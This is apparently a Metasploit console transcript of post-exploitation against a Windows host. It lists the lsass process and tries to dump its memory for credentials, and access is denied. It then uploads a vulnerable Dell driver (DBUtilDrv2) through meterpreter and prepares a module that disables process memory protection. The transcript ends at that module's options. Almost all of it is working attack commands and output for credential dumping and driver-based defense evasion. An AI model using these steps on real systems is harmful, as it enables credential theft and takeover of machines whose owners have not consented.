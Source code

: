 ```
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User  Path
 ---  ----  ----       ----  -------  ----  ----
 740  572   lsass.exe  x64   0

meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use post/windows/gather/memory_dump
msf post(windows/gather/memory_dump) > options

Module options (post/windows/gather/memory_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DUMP_PATH                   yes       File to write memory dump to
   DUMP_TYPE  standard         yes       Minidump size (Accepted: standard, full)
   PID                         yes       ID of the process to dump memory from
   SESSION                     yes       The session to run this module on

msf post(windows/gather/memory_dump) > set SESSION 1
SESSION => 1
msf post(windows/gather/memory_dump) > set PID 740
PID => 740
msf post(windows/gather/memory_dump) > set DUMP_PATH C:\\Windows\\Temp\\lsass_dump
DUMP_PATH => C:\Windows\Temp\lsass_dump
msf post(windows/gather/memory_dump) > run

[*] Running module against BADBLOOD
[*] Dumping memory for lsass.exe
[-] Post aborted due to failure: payload-failed: Unable to open process: Access is denied.
[*] Post module execution completed
msf post(windows/gather/memory_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload /home/albinolobster/drivers/2_7/ C:\\Windows\\Temp
[*] uploading  : /home/albinolobster/drivers/2_7/WdfCoInstaller01009.dll -> C:\Windows\Temp\WdfCoInstaller01009.dll
[*] uploaded   : /home/albinolobster/drivers/2_7/WdfCoInstaller01009.dll -> C:\Windows\Temp\WdfCoInstaller01009.dll
[*] uploading  : /home/albinolobster/drivers/2_7/DBUtilDrv2.cat -> C:\Windows\Temp\DBUtilDrv2.cat
[*] uploaded   : /home/albinolobster/drivers/2_7/DBUtilDrv2.cat -> C:\Windows\Temp\DBUtilDrv2.cat
[*] uploading  : /home/albinolobster/drivers/2_7/dbutildrv2.inf -> C:\Windows\Temp\dbutildrv2.inf
[*] uploaded   : /home/albinolobster/drivers/2_7/dbutildrv2.inf -> C:\Windows\Temp\dbutildrv2.inf
[*] uploading  : /home/albinolobster/drivers/2_7/DBUtilDrv2.sys -> C:\Windows\Temp\DBUtilDrv2.sys
[*] uploaded   : /home/albinolobster/drivers/2_7/DBUtilDrv2.sys -> C:\Windows\Temp\DBUtilDrv2.sys
meterpreter > background
[*] Backgrounding session 1...
msf post(windows/gather/memory_dump) > use post/windows/manage/dell_memory_protect 
msf post(windows/manage/dell_memory_protect) > options

Module options (post/windows/manage/dell_memory_protect):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   DRIVER_PATH                          yes       The path containing the driver inf, cat, and sys (and coinstaller)
   ENABLE_MEM_PROTECT  false            yes       Enable or disable memory protection
   PID                                  yes       The targeted process
   SESSION                              yes       The session to run this module on
```